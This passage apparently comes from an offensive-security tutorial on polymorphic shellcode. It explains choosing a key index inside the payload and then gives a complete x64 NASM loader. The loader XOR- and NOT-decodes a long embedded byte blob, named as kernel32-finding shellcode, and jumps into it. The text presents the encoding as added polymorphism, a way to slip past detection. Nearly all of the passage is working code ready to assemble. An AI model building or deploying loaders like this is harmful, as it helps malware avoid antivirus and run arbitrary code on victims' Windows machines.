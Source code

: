 **Here's the output I received after running the script:**

<img width="1473" height="476" alt="image" src="https://github.com/user-attachments/assets/a1e0410a-30f5-407e-82dc-3b0c24203af6" />

Cool, so just pick one of the index locations the script discovered as your decoding key and apply it to our .asm file below;  I chose key index `38`.  This will be used to yet once again compile our shellcode with an additional layer of polymorphism!  Notice how I added `38` here:

> mov r9b, [rel encoded_shellcode + 38]

That's the index for the location of our decryption key in the shellcode itself.  Ok, let's check out that assembly code shall we?

```nasm
;nasm -fwin64 [x64findkernel32.asm]
;ld -m i386pep -N -o x64findkernel32.exe x64findkernel32.obj
BITS 64

section .data 

section .text
global main

main:
    ; Decode loop (use LEA for RIP-relative address)
    lea rsi, [rel encoded_shellcode]
    mov r9b, [rel encoded_shellcode + 38]
    mov rcx, encoded_shellcode_len   ; Immediate value, no rel needed
decode_loop:
    mov al, [rsi]
    xor al, r9b           ; 0xAC
    not al             ; Undo NOT encoding
    mov [rsi], al
    inc rsi
    loop decode_loop

    ; Jump to decoded shellcode (reload address for jmp)
    lea rax, [rel encoded_shellcode]
    jmp rax
	
encoded_shellcode:
db  0x1e,0xd4,0xb5,0x1b,0xd0,0xbf,0x7b,0x1b,0xde,0x6c,0x1b,0xd0,0xb7,0xa3,0x1e,0xd4,0xa7,0x1b,0x62,0x9a,0x1a,0xd4,0xaf,0x36,0x1b,0xd8,0x57,0x76,0x63,0x53,0x53,0x53,0x1b,0xd8,0x13,0x33,0x1b,0x62,0xac,0x1b,0xd8,0x13,0x4b,0x1a,0xd4,0xad,0x1b,0xd8,0x23,0x43,0x1b,0xd0,0x94,0x53,0x1b,0xd8,0x65,0x1f,0xd4,0xbc,0x1b,0xd8,0x1d,0x33,0x1f,0xd4,0xbc,0x1b,0xd8,0x4a,0x1e,0xd4,0xbf,0x1b,0xe9,0x18,0x53,0x16,0x53,0x01,0x53,0x1d,0x53,0x1b,0x62,0xac,0x1b,0x6a,0x80,0x27,0x5b,0x1a,0xd4,0xaf,0x26,0x85,0x1f,0xd4,0xb4,0x1b,0xd8,0x0d,0x63,0x1e,0xda,0xa5,0x1a,0xda,0x8b,0x1e,0xd4,0xb6,0xd8,0x08,0x6f,0x1e,0x38,0xb7,0x52,0x1f,0x52,0x90,0x1e,0xda,0xb7,0x1b,0x62,0x9a,0x1a,0x92,0xb6,0x53,0x35,0xd2,0x92,0xac,0xdb,0x1e,0xd4,0xbd,0x1b,0x92,0xba,0x5b,0x1a,0x92,0x9f,0x53,0xd8,0x47,0x58,0x1f,0xd4,0xb4,0x1f,0x52,0x91,0x1e,0xda,0xbe,0x17,0xd8,0x01,0x47,0x1e,0x62,0xbe,0x1e,0x62,0x88,0x1a,0xd0,0xbf,0x53,0x17,0xd8,0x09,0x73,0x1a,0xd0,0xad,0x53,0x1e,0x52,0x90,0x1e,0xd4,0xbd,0x1f,0xda,0x82,0x1f,0xd4,0xbc,0x1b,0xeb,0xfb,0xc5,0xc2,0xe9,0xd4,0xc9,0xcf,0x3c,0x1b,0x92,0x9c,0x53,0x1b,0xa4,0x83,0x1a,0xd4,0xae,0x1b,0x92,0xb3,0x5b,0x1e,0xda,0xbe,0x1b,0x92,0xbb,0x5b,0x1e,0xd4,0xb5,0x03,0x1e,0xd6,0xa5,0x1b,0xda,0xb3,0x1a,0xd4,0xad,0x1b,0xd0,0x97,0x5b,0x1e,0xda,0xb7,0x34,0xb0,0x63,0x1a,0xd4,0xad,0x62,0x88,0x1a,0xd4,0xaf,0x12,0xd8,0x4f,0xd8,0x1b,0x92,0xb4,0x53,0x1f,0x52,0x90,0x1e,0xd4,0xb5,0x1b,0xac,0x9a,0x1a,0xd4,0xaf,0x1f,0xd8,0x5b,0x1e,0xd4,0xa7,0x1f,0x6a,0x58,0x27,0x5e,0x1e,0xd4,0xbd,0x26,0x82,0x1a,0x92,0xb5,0x53,0x9f,0x1a,0xd4,0xaf,0xac,0x92,0x1e,0xd6,0xb7,0x1e,0x62,0x88,0x1e,0xd4,0xa7,0x17,0xd8,0x09,0x4f,0x1f,0xd4,0xa4,0x1e,0x52,0x90,0x1e,0xd4,0xbf,0x16,0xd8,0x6f,0xd8,0x1a,0xd4,0xad,0x1e,0x52,0x94,0x1e,0x62,0xa5,0x1b,0x62,0x93,0x1a,0xd0,0x96,0x53,0x03,0x1a,0xd4,0xae,0x1b,0xeb,0xcf,0xcd,0xc0,0xcf,0x82,0xc9,0xd4,0xc9,0x1a,0xd0,0xaf,0x53,0x1b,0xa4,0x83,0x1e,0xd4,0xbd,0x03,0x1a,0xd4,0xad,0x1b,0xda,0xb2,0x1e,0xd6,0xb7,0x1b,0x62,0x81,0x1e,0xd4,0xbd,0x1b,0xac,0x91,0x1a,0xd4,0xad,0x1b,0xd0,0xbf,0x63,0x1a,0xd4,0xaf,0x12,0xac,0x84,0x1e,0xd4,0xa7,0x53,0x53,0x53,0x53,0x53
encoded_shellcode_len equ $ - encoded_shellcode
```
